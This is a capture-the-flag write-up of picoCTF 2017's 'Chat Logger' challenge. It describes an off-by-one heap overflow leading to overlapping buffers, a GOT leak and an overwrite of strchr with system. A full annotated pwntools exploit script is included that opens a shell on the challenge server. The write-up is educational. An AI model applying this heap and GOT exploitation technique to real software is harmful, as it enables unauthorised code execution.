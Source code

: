 # Chat Logger
#### Writeup by hgarrereyn
* **Binary Exploitation**
* *200 points*
* Description: You've been given admin access to the chat logs for our organization to help clean up the language. See if you can get a shell on shell2017.picoctf.com:51628. [chat-logger](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/a15d78650a17f04f8a13e20f4f257d0d9954996f/2017/picoCTF_2017/problems/binary/Chat_Logger/chat-logger) [Source](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/a15d78650a17f04f8a13e20f4f257d0d9954996f/2017/picoCTF_2017/problems/binary/Chat_Logger/server.c)

# Solution

There was an off-by-one buffer overflow error in the `update_message` function that allowed you to overflow a null byte into the size descriptor for a heap object.

Then you could get the program to call realloc and overflow the buffer into what it thought was empty heap space but what was actually another heap object.

Once you got overlapping buffers, you could read the GOT table, calculate the address of `system` and overwrite an entry with that address.

I found it easiest to overwrite `strchr` which was called in `readline`:

```c
char *newline = strchr(buf, '\n');
```

That essentially becomes:

```c
char *newline = system(buf);
```

Then you simply enter the string `sh` and you have shell.

# Difficulties

It wasn't too hard to find the off by one error. Once I saw `strlen` and `malloc` calls with numbers being added, I had a gut feeling there could be an off-by-one error.

It took a bit of fiddling to get the program to malloc buffers that were right next to each other.

# Annotated Script

[**exploitChatLogger.py**](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/a15d78650a17f04f8a13e20f4f257d0d9954996f/2017/picoCTF_2017/problems/binary/Chat_Logger/exploitChatLogger.py)

```python
# By Harrison Green <hgarrereyn>

from pwn import *

# Connect to the server
sock = remote('shell2017.picoctf.com', 51628)

# Helper function to consume input
def n():
	a = sock.recv()
	print(a)
	return a

# select the last message of room #2
sock.send('find 2 funny\n')
n()

# Create the A buffer
sock.send('add 1 ' + ('a' * 48) + '\n')
n()
sock.send('find 2 a\n')
n()

# Create the B buffer
sock.send('add 1 ' + ('b' * 200) + '\n')
n()
sock.send('find 2 b\n')
n()

# Create the C buffer
sock.send('add 1 ' + ('c' * 40) + '\n')
n()

# Overflow A
# Now, the B buffer has size zero and can be overwritten
# although we still retain a pointer to it
sock.send('find 2 a\n')
n()
sock.send('edit ' + ('a' * 54) + '\n')
n()

# We can now overlap the A and B buffers completely. Specifically,
# we will overwrite the text pointer with a GOT address in buffer B.
#
# If we had not done the last step, the realloc() call would return
# a different pointer because there wouldn't be enough space to expand
# buffer A.
#
# strchr@GOT: 0x601e60
sock.send('edit ' + ('a' * 78) + '\x5e\x1e\x60' + '\n')
n()

# The offset of libc functions - found by running this binary on
# the webshell.
#
# <strchr> - 256766 = <system>
offset = - 256766

# This will print out all the messages, including the pointer
# to <strchr> that we set earlier.
sock.send('chat 2\n')

# Some pythonic magic to parse the GOT address for <strchr>
chat = sock.recvuntil('ccc').split('\n')
l = chat[len(chat) - 3]
l2 = "".join([hex(ord(x))[2:].zfill(2) for x in l][-6:][::-1])

# Got the address
print('strchr: ' + l2)

# Calculate system address
strchr = int(l2,16)
sys = strchr + offset
sys_addr = hex(sys)[2:].decode('hex')

# Got system address
print('system: ' + hex(sys))

# We are editing the message with a text pointer that is now
# pointing into the GOT table at strchr
sock.send('edit ' + sys_addr[::-1] + '\n')

# Now when we send this, it will be called by system()
sock.send('sh\n')

# We've got shell
sock.interactive()
```
